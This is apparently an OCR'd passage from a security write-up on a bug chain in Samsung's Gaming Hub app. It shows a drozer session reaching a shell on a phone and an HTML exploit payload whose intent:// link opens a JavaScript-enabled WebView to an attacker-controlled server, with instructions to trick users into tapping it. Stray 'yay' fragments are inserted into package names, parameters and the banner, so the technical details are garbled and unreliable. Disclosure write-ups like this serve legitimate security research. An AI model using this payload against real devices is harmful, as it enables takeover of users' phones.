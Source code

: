 ```
root@1f2e8d5823c5:/# drozer console connect --server host.docker.internal
Selecting 5dee1795a19a8793 (samsung SM-S921B 14)

            ..                    ..:.
           ..o..                  .r..
            ..a..  . ....... .  ..nd
              ro..idsnemesisand..pr
              .otectorandroidsneme.
           .,sisandprotectorandroids+.
         ..nemesisandprotectorandroidsn:.
        .emesisandprotectorandroidsnemes..
      ..isandp,..,rotecyayandro,..,idsnem.
      .isisandp..rotectorandroid..snemisis.
      ,andprotectorandroidsnemisisandprotec.
     .torandroidsnemesisandprotectorandroid.
     .snemisisandprotectorandroidsnemesisan:
     .dprotectorandroidsnemesisandprotector.

drozer Console (v3.1.0)
dz> shell
Attempting to run shell module
:/data/data/com.yaydevhackmodyay.drozer $ id
uid=10356(u0_a356) gid=10356(u0_a356) groups=10356(u0_a356),3003(inet),9997(everybody),20356(u0_a356_cache),50356(all_a356) context=u:r:untrusted_app_32:s0:c100,c257,c512,c768
```

## Technical Details

### Bugs 1 and 2 – Use a Browsable Intent to launch Gaming Hub and open a WebView to a custom URL with JavaScript enabled

#### Exploit Payload

Below is the payload used in this chain link. An attacker should host this HTML code and trick a user into tapping the hyperlink on their phone:

```
<html>
    <body>
        <h1>
        <a href=" intent://com.samsung.android.game.gamehome/gmp?url=https://us.mcsvc.samsung.com.<redacted>.com?yayattackeryay=<attackerServer>#Intent;scheme=gamelauncher;end">yaypocyay</a>
        </h1>
    </body>
</html>
```

#### Exploit Details

The application "Gaming Hub" (`com.samsung.android.game.gamehome` version 7.1.01.7) contains an exported Activity (`com.samsung.android.game.gamehome.app.MainActivity`) which can be launched via Browsable Intent. Depending on the Data URI attached to the Intent, different actions can be executed when the Intent is processed.
